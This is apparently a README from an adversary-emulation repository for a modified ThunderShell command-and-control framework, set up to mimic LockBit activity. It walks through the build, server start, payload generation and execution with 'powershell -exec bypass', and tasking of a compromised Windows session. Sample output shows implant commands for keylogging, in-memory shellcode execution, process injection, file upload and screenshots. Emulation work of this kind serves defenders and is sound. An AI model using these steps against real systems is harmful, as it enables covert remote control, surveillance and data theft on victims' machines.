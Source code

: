 # Thundershell

The original Mr-Un1k0d3r's Thundershell can be found at: <https://github.com/Mr-Un1k0d3r/ThunderShell/tree/master>

- Adopted at [commit ca9c7511725a23a5ccd47b288ce059377f1c5c5c](https://github.com/Mr-Un1k0d3r/ThunderShell/tree/ca9c7511725a23a5ccd47b288ce059377f1c5c5c)
- The original license can be found [here](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/master/LICENSE.md)
- The original README can be found [here](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/master/README.md)

Modifications:

- RC4 encryption removed from [server](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/master/core/httpd.py) and [payload](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/master/data/payloads/stager.cs)
- Connection objected updated to `http.server.ThreadingHTTPServer` [1](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/ca9c7511725a23a5ccd47b288ce059377f1c5c5c/core/httpd.py#L25), [2](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/ca9c7511725a23a5ccd47b288ce059377f1c5c5c/core/httpd.py#L214)

## Usage

This section will detail Thundershell's usage in regards to the LockBit scenario. For more information about the usage of Thundershell, see the original Wiki pages:

- [Home page wiki](https://github.com/Mr-Un1k0d3r/ThunderShell/wiki/Home)
- [Using Thundershell wiki](https://github.com/Mr-Un1k0d3r/ThunderShell/wiki/Using-Thundershell)
- [Features wiki](https://github.com/Mr-Un1k0d3r/ThunderShell/wiki/Features)

**From your Kali terminal:**

1. Navigate to the ThunderShell folder and start the redis server

    ```cmd
    redis-server
    ```

1. In a separate terminal, navigate to the ThunderShell folder and start the Thundershell server

    ```cmd
    python3.7 ThunderShell.py default.json <username>
    ```

    You should see the following output:

    ```cmd
                .#"    =[ ThunderShell version 3.1.2 | RingZer0 Team ]=
            .##"
            .###"       __       __    _________    __            __
        ###P        ###|     ###|  ##########|  ###|          ###|
        d########"    ###|     ###|  ###|         ###|          ###|
        ****####"     ###|_____###|  ###|__       ###|          ###|
        .###"       ############|  ######|      ###|          ###|
        .##"         ###|     ###|  ###|         ###|          ###|
        .#"           ###|     ###|  ###|______   ###|_______   ###|_______
        ."             ###|     ###|  ##########|  ###########|  ###########|


            
    [*] Current active CLI session UUID is 174bd47d-be50-4849-9176-07d03b73c148
    [*] Web GUI Started: http://10.100.0.70:13337
    [*] Web GUI Password: passw0rd!
    [*] Starting web server on 10.100.0.70 port 8080
    ```

1. Run `help` to see possible commands.

    ```cmd
    Help Menu
    =========

    Commands    Args                                  Descriptions
    ----------  ------------------------------------  --------------------------------------------------------------------------------------------
    list        full                                  List all active shells
    interact    id                                    Interact with a session
    show        (password,key,error,http,event) rows  Show server password, encryption key, errors, http or events log (default number of rows 10)
    kill        id                                    kill shell (clear db only)
    os          command                               Execute command on the system (local)
    purge       force                                 WARNING! Delete all the Redis DB
    exit                                              Exit the application
    help                                              Show this help menu
    ```

1. Run `interact <id>` to interact with an active session. Run `help` to see possible commands for the payload.

    ```cmd
    (Main)>>> interact 1

    (BRAVO SABER\drstrange)>>> help
    Help Menu
    =========
    _Commands    __Args                       ___Descriptions
    -----------  ---------------------------  ------------------------------------------------------------
    background                                Return to the main console (CLI only)
    fetch        path/url, cmd                In memory execution of a script and execute a command
    exec         path/url                     In memory execution of code (shellcode)
    read         remote path                  Read a file on the remote host
    upload       path/url, path               Upload a file on the remote system
    ps                                        List processes
    inject       pid, command                 Inject command into a target process (max length 4096)
    keylogger    number of line (default 20)  Show last n line of keystrokes captured
    alias        key, value                   Create an alias to avoid typing the same thing over and over
    delay        milliseconds                 Update the callback delay
    shell        command                      Run command by spawning cmd.exe /c
    screenshot                                Take a screenshot
    help                                      show this help menu

    List of built in aliases
    ------------------------
    wmiexec                     Remote-WmiExecute utility
    searchevent                 Search-EventForUser utility


    List user defined aliases
    --------------------------

    ```

1. Task the Thundershell payload with commands from the session shell:

    ```cmd
    (BRAVO SABER\drstrange)>>> whoami


    (BRAVO SABER\drstrange)>>> 

    [*] drstrange - Sending command: whoami

    (BRAVO SABER\drstrange)>>> 

    [*] Command output:
    saber\drstrange
    ```

**From your Windows host:**

1. To dynamically compile and download the payload from the Thundershell server, navigate to the Web GUI in your browser and sign in with your username and password (GUI url and password printed in command line shell).

1. In the left hand menu select the `Payloads` tab. In the pop up, set the callback address and payload type. Click confirm and verify the payload was downloaded to your `Downloads` folder.

1. Run the payload. To run the powershell payload run the following:

    ```cmd
    powershell -exec bypass import-module .\<file>.ps1
    ```

    You should see the registration in the terminal or `Sessions` tab of the Web GUI.

    ```cmd
    (Main)>>> 
    [+] Registering new shell BRAVO SABER\drstrange
    [+] New shell ID 1 GUID is qs6fUeQ7XzqnTSg3
    [+] Running auto commands on shell SABER\drstrange
            [+] whoami
            [+] screenshot


    (Main)>>> list full
    List of active shells
    ---------------------

    1     BRAVO SABER\drstrange qs6fUeQ7XzqnTSg3 last seen 2024-04-11 15:10:44
    ```

## Build Instructions

The following steps will walk through the setup of the build environment. Thundershell has to be run with python3.7 to accomodate for out of date dependencies. Follow the steps listed [here](https://tecadmin.net/install-python-3-7-on-ubuntu-linuxmint/) to install python3.7 if it is not already installed.

**From your Kali host:**

1. Install dependencies

    ```cmd
    sudo apt install -y mono-mcs redis-server
    ```

1. Navigate to the ThunderShell directory in `LockBit/Resources/ThunderShell`

    ```cmd
    cd LockBit/Resources/ThunderShell/
    ```

1. Enter root shell

    ```cmd
    sudo su
    ```

1. Install Thundershell dependencies

    ```cmd
    python3.7 -m pip install -r requirements.txt
    ```

1. Update the [default.json](default.json) file with the correct values (server, port, etc.)

1. Start the redis server

    ```cmd
    redis-server
    ```

1. Start the Thundershell server

    ```cmd
    python3.7 ThunderShell.py default.json <username>
    ```

For more information about starting the Thundershell server see [here](https://github.com/Mr-Un1k0d3r/ThunderShell/wiki/Home).

## CTI Reporting

1. <https://isec.ne.jp/wp-content/uploads/2017/10/52ThunderShell.pdf>
1. <https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-165a>
